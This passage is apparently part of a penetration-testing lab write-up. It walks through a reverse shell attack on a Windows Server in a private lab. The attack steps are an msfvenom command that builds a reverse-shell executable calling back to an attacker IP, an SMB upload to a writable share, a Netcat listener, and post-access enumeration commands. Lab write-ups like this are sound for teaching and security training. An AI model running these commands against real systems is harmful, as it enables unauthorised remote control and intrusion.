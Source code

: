 
### 4.7 Reverse Shell Attack

Once I completed enumeration and discovered potential privilege escalation opportunities, I moved to establish **full remote control** over the Windows Server using a **reverse shell**.
A **reverse shell** allows the target machine to connect back to the attacker, creating an interactive session. This enables stealthy and persistent post-exploitation activities.

**Step 1: Generating the Reverse Shell Payload**

I used `msfvenom` to generate a Windows reverse shell executable:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o reverse_shell.exe
```
- `-p windows/shell_reverse_tcp`: Specifies the payload type (reverse shell for Windows).
- `LHOST=192.168.1.100`: Attacker’s IP address (Kali Linux machine).
- `LPORT=4444`: Listening port on the attacker's machine.
- `-f exe`: Output format as a Windows executable file.
- `-o reverse_shell.exe`: Output file name.
The payload `reverse_shell.exe` was successfully created.

**Step 2: Uploading the Payload to the Target**

I uploaded the payload to a writable share on the Windows Server. The file was placed into the `ShareTest` directory for execution.
```bash
smbclient //192.168.1.233/ShareTest -U BTarget
put reverse_shell.exe
```

**Step 3: Setting Up a Listener on Kali**

To capture the incoming reverse connection, I set up a **Netcat** listener: This made Kali ready to accept incoming shells on port 4444.
```bash
nc -lvnp 4444
```

**Step 4: Executing the Payload on Windows Server**

On the target machine I Navigated to the `ShareTest` folder and **Double-clicked** on `reverse_shell.exe`. This triggered a reverse connection back to Kali, and a full shell was established!

**Post-Access Validation Commands**: Once connected, I executed various system commands to validate full access:
```bash
whoami        # Displays the current username (Administrator).
hostname      # Shows the computer's name.
net users     # Lists all local user accounts.
systeminfo    # Provides detailed information about the operating system.
tasklist      # Lists all running processes on the system.
```
Confirmed full administrative privileges.
